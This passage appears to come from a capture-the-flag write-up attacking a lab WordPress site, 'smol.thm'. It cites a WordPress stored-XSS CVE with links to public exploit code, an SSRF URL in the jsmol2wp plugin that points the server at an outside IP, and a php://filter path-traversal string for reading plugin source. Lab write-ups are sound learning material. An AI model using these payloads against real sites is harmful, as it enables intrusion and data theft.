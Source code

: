 ### ** Rabbit-hole ** - GOTO Step 3!

Wordpress 6.4.3 is vulnerable "avatar XSS" CVE-2024-4439 Exploit: Unauthenticated Stored Cross-Site Scripting Vulnerability in WordPress Core

XSS POC ok

![xss](xss_ok.png)

CVE-2024-4439 

References:

https://github.com/MielPopsssssss/CVE-2024-4439/blob/main/CVE-2024-4439.py

https://github.com/d0rb/CVE-2024-4439/tree/main

I could not exploit the weakness from several directions. Revshell is not working. 

Findings: 

OPEN directory http://www.smol.thm/wp-content/uploads/

SSRF:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=http://10.14.38.96:9090

# Task 1 part 2 Web login to reverse shell 

### Step 3 - GO back to enumerate wp inside


We can find a "Webmaster Tasks!!" private page. 

1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.

Check Hello Dolly file: 

php://filter/resource=../../hello.php

What is Hello Dolly? 

*Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.*
